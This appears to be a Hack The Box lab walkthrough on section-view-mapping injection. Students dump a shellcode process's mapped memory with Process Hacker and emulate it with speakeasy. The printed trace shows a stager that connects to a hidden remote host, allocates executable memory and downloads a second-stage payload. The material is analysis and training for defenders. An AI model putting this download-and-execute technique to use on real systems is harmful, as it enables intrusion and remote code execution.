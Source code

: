 ```cmd
C:\injection\exercises\mapview_shellcode.bat
```

```
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>C:\injection\exercises\mapview_shellcode.bat
```

Subsequently, students will open `Process Hacker` located in the taskbar, locate the `mapview_shellcode.exe` process, right-click, and click on `Properties`:

![[HTB Solutions/Others/z. images/71aec40503f1b357ecbeaf58d61e476d_MD5.jpg]]

Students will refer to the knowledge obtained from the previous section (`Section View Mapping - Implementation`) to locate the mapped section by going to the `Handles` tab, locating the `Section` type commit, right-click on it, and click on `Read/Write memory`:

![[HTB Solutions/Others/z. images/6c927b2bc89348cfd1b90e77f62d4d18_MD5.jpg]]

Subsequently, students will save the memory using the `Save...` button on the Desktop:

![[HTB Solutions/Others/z. images/89a2dea2efebf4922ccced8bb7004d58_MD5.jpg]]

Students will return to the previously spawned Command Prompt terminal, navigate to the `Desktop`, and use `speakeasy` to analyze the save shellcode to find the IP address within the `InternetConnectA` function of the `wininet` library:

Code: cmd

```cmd
cd Desktop\
speakeasy -t Memory.bin -r -a x64
```

```
C:\Users\Administrator\Desktop>speakeasy -t Memory.bin -r -a x64

* exec: shellcode
0x10f3: 'kernel32.LoadLibraryA("wininet")' -> 0x7bc00000
0x1188: 'wininet.InternetOpenA("Mozilla/5.0 (Macintosh; Intel Mac OS X 14_7_2) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4.1 Safari/605.1.15", 0x0, 0x0, 0x0, 0x0)' -> 0x20
0x11bb: 'wininet.InternetConnectA(0x20, "{hidden}", 0x1f90, 0x0, 0x0, 0x3, 0x0, 0x0)' -> 0x24
0x1295: 'wininet.HttpOpenRequestA(0x24, 0x0, "/ZNCy-j8d27T59fj3nlq0-QG2BhwDhaKb7CB3tjFJd5x-2XVtAUC8w9Tw-O19L1dYQS88XUeU-7N_Skq9ew_QUAttP-3zd_bN9xtiubRDNvZUEQ0d0-i5dZ5OSdY8m1-TLtGKwuuQwF0fuV-WuiE7UQ9b33RTxrXBS7ah_hFcHCDUzB4siT", 0x0, 0x0, 0x0, "INTERNET_FLAG_DONT_CACHE | INTERNET_FLAG_NO_AUTO_REDIRECT | INTERNET_FLAG_NO_COOKIES | INTERNET_FLAG_NO_UI | INTERNET_FLAG_RELOAD", 0x0)' -> 0x28
0x12b1: 'wininet.HttpSendRequestA(0x28, 0x0, 0x11c0, 0x0, 0x0)' -> 0x1
0x12f2: 'kernel32.VirtualAlloc(0x0, 0x400000, 0x1000, "PAGE_EXECUTE_READWRITE")' -> 0x450000
0x1315: 'wininet.InternetReadFile(0x28, 0x450000, 0x2000, 0x1203e60)' -> 0x1
0x1315: 'wininet.InternetReadFile(0x28, 0x451000, 0x2000, 0x1203e60)' -> 0x1
0x450012: Unhandled interrupt: intnum=0x3
0x450012: shellcode: Caught error: unhandled_interrupt
* Finished emulating
```
